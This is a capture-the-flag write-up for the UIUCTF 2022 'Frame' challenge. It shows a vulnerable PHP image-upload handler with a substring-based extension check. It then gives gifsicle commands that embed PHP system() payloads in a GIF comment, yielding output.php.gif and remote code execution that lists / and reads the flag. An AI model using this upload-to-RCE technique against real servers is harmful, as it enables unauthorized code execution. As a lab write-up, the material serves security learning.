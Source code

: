 # UIUCTF 2022

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<.gitbook/assets/image (6).png>)

analysis:

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

Exploit:

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<.gitbook/assets/image (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<.gitbook/assets/image (9).png>)

Go to that path and get some interesting things:

![](.gitbook/assets/image.png)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<.gitbook/assets/image (4).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<.gitbook/assets/image (2).png>)

flag in some confusing thing like this:

![](<.gitbook/assets/image (1).png>)

Thanks for reading. Have a good day :heart: !
